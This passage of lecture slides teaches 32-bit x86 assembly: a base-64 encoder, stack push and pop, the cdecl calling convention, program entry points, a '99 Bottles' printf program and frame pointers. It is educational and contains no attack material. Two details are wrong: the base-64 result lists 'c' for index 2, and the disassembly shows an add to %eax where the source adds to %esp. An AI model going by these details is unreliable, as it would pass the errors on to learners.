  \item Base-64 encoding expresses binary data with a set of 64 printable ASCII characters.
  \item Encoding Scheme
  \begin{itemize}
    \item Combine three input bytes into a 24-bit quantity \\
    {\ttfamily 0xFF 0xDE 0x02 = 0b11111111\_11011110\_00000010}
    \item Split the 24-bits into four 6-bit quantities \\
    {\ttfamily 0b11111111\_11011110\_00000010} \\
    {\ttfamily 0b111111\_111101\_111000\_000010} \\
    \item Look up each 6-bit quantity in the 64 ASCII character table
    {\ttfamily b64table[0b111111], b64table[0b111101], b64table[0b111000], b64table[0b000010]} \\
    \item Base-64 encoding of {\ttfamily 0xFF 0xDE 0x02} is {\ttfamily '/' '9' '4' 'c'}
  \end{itemize}
  \item Rules to pad input sequences that are not multiples of 3 bytes
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Base-64 Encoder (example-7.S)}
\mvs
\begin{gascode*}{fontsize=\fontsize{9}{8}}
.section .text

.global main
main:
movl $plainData, %esi     # Pointer to plainData
movl $encodedData, %edi   # Pointer to encodedData
movl $b64table, %ebp      # Pointer to b64Table

movl $0, %ecx             # Clear our counter %ecx
movl plainDataLen, %edx   # Length of plain data in %edx

b64_encode_loop:
  movb (%esi, %ecx, 1), %al   # Fetch byte 1 of 3
  incl %ecx
  shl $16, %eax               # Left shift the byte into place
  movb (%esi, %ecx, 1), %ah   # Fetch byte 2 of 3
  incl %ecx
  movb (%esi, %ecx, 1), %al   # Fetch byte 3 of 3
  incl %ecx

  # %eax contains 24-bits of input bytes
  # arranges as | x | 2 | 1 | 0 |

\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Base-64 Encoder (example-7.S)}
\mvs
\begin{gascode*}{fontsize=\fontsize{9}{8}}
  movl %eax, %ebx     # Save a copy of %eax

  # Look up base-64 character 1
  shr $18, %eax               # Shift top 6-bits to the bottom
  andl $0x3F, %eax            # Mask them off
  movb (%ebp, %eax, 1), %al   # Look up the character from b64table
  movb %al, (%edi)            # Write character to encodeString
  incl %edi
  movl %ebx, %eax             # Restore %eax

  # Look up base-64 character 2
  shr $12, %eax               # Shift next 6-bits to the bottom

  ...
  ...

  # Loop until we've processed all input bytes
  cmpl %edx, %ecx
  jl b64_encode_loop

# Write a null-terminating byte to the encoded string
movb $0, %al
movb %al, (%edi)

# Print the encoded string
...

ret
\end{gascode*}
\end{frame}


\begin{frame}[fragile,t]
\frametitle{Base-64 Encoder (example-7.S)}
\mvs
\begin{gascode*}{fontsize=\fontsize{9}{8}}
.section .rodata
  # base-64 encoding look up table
  b64table:
\end{gascode*}
\begin{textcode*}{fontsize=\fontsize{9}{8}}
  .byte 'A,'B,'C,'D,'E,'F,'G,'H
  .byte 'I,'J,'K,'L,'M,'N,'O,'P
  .byte 'Q,'R,'S,'T,'U,'V,'W,'X
  .byte 'Y,'Z,'a,'b,'c,'d,'e,'f
  .byte 'g,'h,'i,'j,'k,'l,'m,'n
  .byte 'o,'p,'q,'r,'s,'t,'u,'v
  .byte 'w,'x,'y,'z,'0,'1,'2,'3
  .byte '4,'5,'6,'7,'8,'9,'+,'/
\end{textcode*}
\begin{gascode*}{fontsize=\fontsize{9}{8}}

formatStr:
  .ascii "Plain data: %s\nEncoded data: %s\n\0"

.section .bss
  # base-64 encoded string storage
  .comm encodedData, 1024

.section .data
  # input data (multiple of 3 bytes for the purpose of this example)
  plainData:      .ascii "Hello World!\0"
  plainDataLen:   .long 12
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Base-64 Encoder (example-7.S) Runtime}
\mvs
\begin{textcode}
$ as example-7.S -o example-7.o
$ gcc example-7.o -o example-7
$ ./example-7
./example-7
Plain data: Hello World!
Encoded data: SGVsbG8gV29ybGQh
$
\end{textcode}
\end{frame}

\section{Topic 5: Stack}

\begin{frame}[fragile,t]
\frametitle{Automatic Allocation in C}
\begin{itemize}
  \item From C, we're used to automatic memory allocations in functions and blocks \{ ... \} in general
\end{itemize}
\begin{ccode}
int main(void) {
  int i;            /* Automatic allocation */
  char buff[8];     /* Automatic allocation */

  while (1) {
    int j;          /* Automatic allocation */
    ...
  }

  return 0;
}
\end{ccode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Automatic Allocation in Assembly}
\begin{figure}
\centering

\includegraphics[height=0.4\paperheight]{figures/stackplain.png}
\end{figure}
\begin{itemize}
  \item In assembly, we can dynamically allocate/deallocate memory on the stack with {\ttfamily push} and {\ttfamily pop} instructions, or direct arithmetic on {\ttfamily \%esp}
  \item x86 stack is
  \begin{itemize}
    \item last-in-first-out
    \item descending
    \item {\ttfamily \%esp} points to allocated memory
  \end{itemize}
  \item OS sets up {\ttfamily \%esp} to point to a valid chunk of read-write user memory at program start
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Basic {\ttfamily push} / {\ttfamily pop} Stack Usage}
\mvs
\begin{figure}
\centering

\includegraphics[width=\textwidth]{figures/stackpushpop.png}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Stack Batch Allocation / Deallocation}
\mvs
\begin{figure}
\centering

\includegraphics[width=\textwidth]{figures/stackalloc.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Accessing the Stack}
\begin{itemize}
  \item {\ttfamily push} and {\ttfamily pop} are not too magical
\end{itemize}
  \begin{gascode}
  pushl %eax
  # is basically similar to
  subl $4, %esp
  movl %eax, (%esp)

  popl %eax
  # is basically similar to
  movl (%esp), %eax
  addl $4, %esp
  \end{gascode}
\begin{itemize}
  \item We can access stack memory with indirect memory acceses on {\ttfamily \%esp}, not just {\ttfamily push} and {\ttfamily pop}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Stack Usage (example-8.S)}
\mvs
\begin{gascode}
.section .text

# Stack is now
# |    ...     |   <-- %esp = 0x8xxxxxxx

movl $0x05, %eax
pushl %eax          # Push dword 0x00000005 onto the stack
incl %eax
pushl %eax          # Push dword 0x00000006 onto the stack
incl %eax
pushl $0xdeadbeef   # Push dword 0xdeadbeef onto the stack

# Stack is now
# |    ...     |
# | 0x00000005 |
# | 0x00000006 |
# | 0xdeadbeef |  <-- %esp = 0x8xxxxxxx

addl $8, %esp       # Deallocate 8 bytes off of the stack

# Stack is now
# |    ...     |
# | 0x00000005 |  <-- %esp = 0x8xxxxxxx
# | 0x00000006 |
# | 0xdeadbeef |
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Stack Usage (example-8.S)}
\mvs
\begin{gascode}
movl $0xaaaaaaaa, (%esp)  # Write 0xaaaaaaaa to the stack

# Stack is now
# |    ...     |
# | 0xaaaaaaaa |  <-- %esp = 0x8xxxxxxx
# | 0x00000006 |
# | 0xdeadbeef |
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Stack Usage (example-8.S) Disassembly}
\begin{customobjdumpcode}
$ as example-8.S -o example-8.o && ld example-8.o -o example-8 &&
   objdump -D example-8

Disassembly of section .text:
08048054 <.text>:
 8048054: b8 05 00 00 00        mov    $0x5,%eax
 8048059: 50                    push   %eax
 804805a: 40                    inc    %eax
 804805b: 50                    push   %eax
 804805c: 40                    inc    %eax
 804805d: 68 ef be ad de        push   $0xdeadbeef
 8048062: 83 c0 08              add    $0x8,%eax
 8048065: c7 04 24 aa aa aa aa  movl   $0xaaaaaaaa,(%esp)
\end{customobjdumpcode}
\end{frame}

\section{Topic 6: Functions and cdecl Convention}

\begin{frame}[fragile,t]
\frametitle{{\ttfamily call} and {\ttfamily ret}}
\begin{itemize}
  \item There is {\ttfamily jmp <label>} and {\ttfamily call <label>}
  \item {\ttfamily call} pushes a return address onto the stack, then jumps
  \item {\ttfamily ret} pops the return address off the stack, and jumps to it
\end{itemize}
  \begin{gascode}
      # Stack is now
      # |    ...     |

      movl $0, %eax
      call addOneToEax
      # Stack is once again
      # |    ...     |

      call addOneToEax
      call addOneToEax
      # %eax is now 3

      ...
      addOneToEax:
        # Stack is now
        # |    ...     |
        # |  retaddr   | <- %esp
        incl %eax
        ret
  \end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Function Arguments on the Stack}
\begin{itemize}
  \item Arguments can be passed on the stack to functions
\end{itemize}
\begin{gascode}
  pushl $5
  call doubleArg
  # %eax is now 10

  ...
  doubleArg:
    # Stack is now
    # |    ...     |
    # | 0x00000005 | <- %esp+4
    # | retaddr    | <- %esp
    movl 4(%esp), %eax    # %eax = *(%esp+4)
    addl %eax, %eax       # %eax += %eax
    ret
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{{\ttfamily cdecl} Calling Convention}
\begin{itemize}
  \item How can we ensure that our CPU state ({\ttfamily \%eax, \%ebx, \%ecx, \%edx, \%edi, ...}) doesn't get corrupted when a function needs to use those registers to do useful work?
  \pause
  \item How should we pass arguments to functions?
  \begin{itemize}
    \item We could use registers after all.
  \end{itemize}
  \pause
  \item GCC on Linux uses the {\ttfamily cdecl} calling convention
  \begin{itemize}
     \item function arguments pushed onto the stack from right to left
     \item {\ttfamily \%eax, \%ecx, \%edx} can be used by the function (must be preserved by caller if necessary)
     \item other registers are preserved by function
     \item return value in {\ttfamily \%eax}
     \item function arguments pushed onto the stack must be cleaned up by caller
  \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example of {\ttfamily cdecl} Calling Convention (example-9.S)}
\begin{gascode}
.section .text
# sumThreeNumbers(*magicNumber, 5, 12);
pushl $12             # Push 0x000000C
pushl $5              # Push 0x0000005
pushl magicNumber     # Push *magicNumber
call sumThreeNumbers
addl $12, %esp        # Clean up arguments off of the stack
# %eax is 59

sumThreeNumbers:
  # Stack is now
  # |    ...     |
  # |     12     | <- %esp+12
  # |      5     | <- %esp+8
  # |     42     | <- %esp+4
  # | retaddr    | <- %esp

  movl $0, %eax        # Clear %eax
  addl 4(%esp), %eax   # %eax += *(%esp+4)
  addl 8(%esp), %eax   # %eax += *(%esp+8)
  addl 12(%esp), %eax  # %eax += *(%esp+12)
  ret

.section .data
magicNumber: .long 42
\end{gascode}
\end{frame}

\section{Entry Points}

\begin{frame}[fragile,t]
\frametitle{Plain Entry Point}
\begin{itemize}
  \item ELF binary specifies an entry point address for the OS to set initial {\ttfamily \%eip} to
  \item {\ttfamily ld} expects this to be specified by the symbol {\ttfamily \_start}
\end{itemize}
\begin{gascode}
.section .text
.global _start    # Export the symbol
_start:
  nop             # Off to a good start...
  nop
  nop
  loop: jmp loop  # Loop forever
\end{gascode}
\begin{textcode}
$ as test.S -o test.o
$ ld test.o -o test
$ ./test
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{{\ttfamily libc} Entry Point}
\begin{itemize}
  \item When we link with {\ttfamily libc}, it provides its own {\ttfamily \_start} to do some initialization, which eventually will call {\ttfamily main}
  \item We provide a {\ttfamily main} and also a return back to libc with {\ttfamily ret} and a return value in {\ttfamily \%eax}
  \item libc {\ttfamily exit()'s} with this value
\end{itemize}
\begin{gascode}
.section .text
.global main
main:
  nop
  nop
  nop
  movl $3, %eax   # Return 3!
  ret
\end{gascode}
\begin{textcode}
$ as test.S -o test.o
$ gcc test.o -o test    # Use gcc to invoke ld to link with libc
$ ./test
$ echo $?
3
$
\end{textcode}
\end{frame}

\section{Putting it together: 99 Bottles of Beer on the Wall}
\begin{frame}[fragile,t]
\mvs
\frametitle{99 Bottles of Beer on the Wall (example-10.S)}
\begin{gascode*}{textsize=\textsize{9}{8}}
.section .text
.global main
.global printf
main:
  movl $99, %eax    # Start with 99 bottles!
  # We could use a cdecl callee preserved register,
  # but we'll make it hard on ourselves to practice
  # caller saving/restoring

  # printf(char *format, ...);

  more_beer:
    # Save %eax since it will get used by printf()
    pushl %eax

    # printf(formatStr1, %eax, %eax);
    pushl %eax
    pushl %eax
    pushl $formatStr1   # *Address* of formatStr1
    call printf
    addl $12, %esp      # Clean up the stack

    # Restore %eax
    popl %eax
    # Drink a beer
    decl %eax
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{99 Bottles of Beer on the Wall (example-10.S)}
\begin{gascode*}{textsize=\textsize{9}{8}}
    # Save %eax
    pushl %eax

    # printf(formatStr2, %eax);
    pushl %eax
    pushl $formatStr2   # *Address* of formatStr2
    call printf
    addl $8, %esp       # Clean up the stack

    # Restore %eax
    popl %eax
    # Loop
    test %eax, %eax
    jnz more_beer

  # printf(formatStr3);
  pushl $formatStr3
  call printf
  addl $4, %esp

  movl $0, %eax
  ret

\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{99 Bottles of Beer on the Wall (example-10.S)}
\begin{gascode*}{textsize=\textsize{7.5}{8}}
.section .data
formatStr1:
.ascii "%d bottles of beer on the wall! %d bottles of beer!\n\0"
formatStr2:
.ascii "Take one down, pass it around, %d bottles of beer on the wall!\n\0"
formatStr3:
.ascii "No more bottles of beer on the wall!\n\0"
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{99 Bottles of Beer on the Wall (example-10.S) Runtime}
\begin{textcode}
$ as example-10.S -o example-10.o
$ gcc example-10.o -o example-10
$ ./example-10
99 bottles of beer on the wall! 99 bottles of beer!
Take one down, pass it around, 98 bottles of beer on the wall!
98 bottles of beer on the wall! 98 bottles of beer!
Take one down, pass it around, 97 bottles of beer on the wall!
97 bottles of beer on the wall! 97 bottles of beer!
...
3 bottles of beer on the wall! 3 bottles of beer!
Take one down, pass it around, 2 bottles of beer on the wall!
2 bottles of beer on the wall! 2 bottles of beer!
Take one down, pass it around, 1 bottles of beer on the wall!
1 bottles of beer on the wall! 1 bottles of beer!
Take one down, pass it around, 0 bottles of beer on the wall!
No more bottles of beer on the wall!
$
\end{textcode}
\end{frame}

\section{Topic 7: Stack Frames}

\begin{frame}[fragile,t]
\frametitle{Where did that argument go?}
\mvs
\begin{itemize}
  \item Referring to arguments with {\ttfamily \%esp} in a function is easy, until you start moving around {\ttfamily \%esp} itself.
\end{itemize}
\begin{gascode*}{textsize=\textsize{9}{8}}
  pushl $5
  call doSomething
  addl $4, %esp

  ...
  doSomething:
    # Stack is now
    # |    ...     |
    # |      5     | <- %esp+4
    # | retaddr    | <- %esp
    # Argument is at %esp+4

    subl $12, %esp   # Allocate 12 bytes on the stack

    # Stack is now
    # |    ...     |
    # |      5     | <- %esp+16
    # | retaddr    | <- %esp+12
    # | local var  | <- %esp+8
    # | local var  | <- %esp+4
    # | local var  | <- %esp
    # Argument is now at %esp+16 !
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Frame Pointer}
\begin{itemize}
  \item What if we had an anchor point in our stack at the start of our function?
  \item We could have constant offsets above to arguments and below to allocated variables from the anchor point
  \pause
  \item This is the conventional role of register {\ttfamily \%ebp}, the frame pointer (also called base pointer)
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Frame Pointer Prologue}
\mvs
\begin{gascode*}{textsize=\textsize{8}{8}}
  pushl $5
  call doSomething
  addl $4, %esp
  ...
  doSomething:
